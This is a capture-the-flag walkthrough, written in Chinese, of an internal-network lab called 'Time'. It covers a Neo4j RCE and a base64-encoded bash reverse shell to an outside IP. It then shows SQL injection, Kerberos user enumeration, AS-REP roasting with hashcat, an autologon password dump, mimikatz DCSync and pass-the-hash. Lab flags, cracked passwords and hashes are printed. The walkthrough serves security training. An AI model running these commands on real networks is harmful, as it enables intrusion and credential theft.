# 春秋云镜 & Time

## 靶标介绍
`Time`是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有`4`个`flag`，分布于不同的靶机。

## 攻击流程

利用`Nmap`对给出的`IP`进行扫描，发现存在`Neo4j`，尝试利用`Neo4j`未授权进行攻击，[CVE-2021-34371](https://github.com/zwjjustdoit/CVE-2021-34371.jar)。


反弹`Shell`进一步利用。

```bash
java -jar rhino_gadget.jar rmi://39.99.241.178:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuNTUuNi4xMjEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" 
```



在`/home/neo4j`目录下获取到`flag01`：`flag{18439d68-f949-42bb-b9e2-c3eef9676b25}`。



查一下网段信息，`wget`下载一下`fscan`对内网信息进行搜集。



```
start ping
(icmp) Target 172.22.6.12     is alive
(icmp) Target 172.22.6.25     is alive
(icmp) Target 172.22.6.38     is alive
(icmp) Target 172.22.6.36     is alive
[*] Icmp alive hosts len is: 4
172.22.6.38:22 open
172.22.6.12:88 open
172.22.6.38:80 open
172.22.6.25:445 open
172.22.6.12:445 open
172.22.6.25:139 open
172.22.6.12:139 open
172.22.6.25:135 open
172.22.6.12:135 open
172.22.6.36:7687 open
172.22.6.36:22 open
[*] alive ports len is: 11
start vulscan
[*] NetInfo:
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetInfo:
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] 172.22.6.12  (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.6.38        code:200 len:1531   title:后台登录
[*] NetBios: 172.22.6.25     XIAORANG\WIN2019               
[*] NetBios: 172.22.6.12     [+]DC DC-PROGAME.xiaorang.lab       Windows Server 2016 Datacenter 14393 
[*] WebTitle: https://172.22.6.36:7687  code:400 len:50     title:None
```

同样把`Stowaway`下载到目标主机上，开`Socks`代理，把内网代理出来进一步探测。

先对后台登录进行测试，发现存在`username`字段存在`SQL`注入漏洞，直接利用`Sqlmap`把数据全`dump`出来。

```sql
available databases [5]:
[*] information_schema
[*] mysql
[*] oa_db
[*] performance_schema
[*] sys
```

```sql
Database: oa_db
[3 tables]
+------------+
| oa_admin   |
| oa_f1Agggg |
| oa_users   |
+------------+
```

在表`oa_f1Agggg`中获取到`flag02`：`flag{b142f5ce-d9b8-4b73-9012-ad75175ba029}`



在表`oa_users`中存在`500`个邮箱，将其全部`dump`出来后，结合`flag01`的提示`Do you know the authentication process of Kerberos?`，先对域内用户进行枚举尝试，最终跑出来`74`个有效用户名。

```bash
kerbrute userenum --dc 172.22.6.12 -d xiaorang.lab ~/Desktop/username.txt -t 10
```



在爆破域用户的时候，还获取了两组凭据，根据信息推测应该是设置了选项`Do not require Kerberos preauthentication`，可以利用`AS-REP Roasting`进行攻击。

```bash
GetNPUsers.py -dc-ip 172.22.6.12 xiaorang.lab/ -usersfile username.txt
```

```
$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:1756e89a42df4433cdaaed2951369b82$facac115a0d62bd34ebab877d7c4f8079363aed5894d176d80dfba48691993fa18eb90af9b2b69e146f94508e01ecc0e9a3886956d84c21e390b51055d4db82b434a1f84c1d79c53e976e8d8ff8da8ae1cd229c758464f94995ba15f8fd237ab7d0e3c4b12d312e4ae4c4bd09b18f6a8cc5bd43e6afedea796e73af9969fb5fc14dadd654030c5ea53b9515a0dfd63edb7fbe2eafac9ee1f57df4d60daf2588844aebf63c25afdb2944f2a3fb857bb0c641347544d116f2a4f1127630006f15ed98b0bdadb812a8036d7e47d3883e5a192a543d4ec5a5fa0a60e874f827832de3a816ad5a3d2126396f1abe0

$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:978a3953a5918e506472d8b7f939a82f$ab62517fb779a42b756289c35c64afa94f28fe15effa9f17e45352e36d93772a08ef61314d1c77b1145c421af16a6c12747826a57cb192bba3ae2d954c14c0aa764dd53513ccb737a6504fc8b6d5162eeb253e575a5a0bd8a7abe4462295f2198e06cc7f1d714920d160a4dcb107394ddd7931f99f1fdc7abaeb33ffc2a78ff81d7ede1d79bdae97aeaf39655c26845d76890e508695e914eb0ae2210785a9690db00c4d71bce5da0dbeb492fed33d32ea2e12348080e13cace2ee6eea5e25c867fcb71a045bdfd18e49b4058245ee86fefa58433969229dd6cb3c8daac0294a4a7c1f81f9fcbcce51cc4490
```



利用`hashcat`爆破一下凭据，得到两组登录凭据用户名和密码。

```bash
hashcat -m 18200 --force -a 0 '$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:b6c410706b5e96c693b2fc61ee1064c3$2dc9fbee784e7997333f30c6bc4298ab5752ba94be7022e807af418c11359fd92597e253752f4e61d2d18a83f19b5c9df4761e485853a3d879bcf7a270d6f846683b811a80dda3809528190d7f058a24996aff13094ff9b32c0e2698f6d639b4d237a06d13c309ce7ab428656b79e582609240b01fb5cd47c91573f80f846dc483a113a86977486cecce78c03860050a81ee19921d3500f36ff39fa77edd9d5614cf4b9087d3e42caef68313d1bb0c4f6bc5392943557b584521b305f61e418eb0f6eb3bf339404892da55134cb4bf828ac318fe00d68d1778b7c82caf03b65f1938e54ed3fa51b63cdb2994' rockyou.txt

hashcat -m 18200 --force -a 0 '$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:971802b84ce99050ad3c5f49d11fd0b7$6c1be075c3cf2a7695529de2ebbf39c5ec7e5326c9d891dac2107b239892f76befe52c860e4e1e2ff6537a5765a6bcb6b8baca792d60765ac0bbe1b3c5e59f3ec51b7426636a437d5df12130eb68d9b17ef431455415671c7331a17ce823e28cc411677bed341d3fceefc3451b8b232ea6039661625a5c793e30c4d149b2ed9d2926e9d825b3828744ebce69e47746994c9a749ceeb76c560a1840bc74d2b9f301bb5b870c680591516354460dab2238e7827900ed80320dd3a6f46874b1bc8a3a68aea7bd11d0683ec94103f59d9511691090928e98d0d8978f511e71fd9db0067fa0d450c120f3726918d7' rockyou.txt
```

```
wenshao@xiaorang.lab/hellokitty
zhangxin@xiaorang.lab/strawberry
```





利用得到的两组凭证进行`RDP`连接，利用`wenshao/hellokitty`成功登录`XIAORANG\WIN2019 `，利用`SharpHound`搜集一下域内信息，查看`Shortest Paths to Unconstrained Delegation Systems`，发现域用户`YUXUAN`具有指向`Administrator@xiaorang.lab`的`HasSIDHistory`（说明该用户拥有域管理员的权限），而且在`WIN2019.XIAORANG.LAB`主机上有`YUXAUN`的`Session`。



查看会话，发现确实存在域用户`YUXUAN`的会话。

```bash
query user
query session
```



尝试抓取一下自动登录的密码，得到`yuxuan/Yuxuan7QbrgZ3L`，这里也可以通过利用工具`WinPEARS`来获取。

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```



接着利用域用户`YUXUAN`具有的`HasSIDHistory`特性，切换到`yuxuan`登录远程桌面，直接`PTH`获取到域控机器`\\172.22.6.12\c$\Users\Administrator\flag\`下的`flag04`：`flag{2e2ebd95-ce2e-4704-9043-d859644e1c13}`。



上传`mimikatz`来导出域内所有用户的`Hash`，得到域用户`Administrator`的`Hash`：`04d93ffd6f5f6e4490e0de23f240a5e9`。

```bash
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```



直接横向到`WIN2019`来获取`flag03`：`flag{0991a26e-aa0d-4f26-9dc7-2bb5a10b2d1e}`。

```bash
python3 psexec.py -hashes  :04d93ffd6f5f6e4490e0de23f240a5e9 xiaorang.lab/administrator@172.22.6.25
```

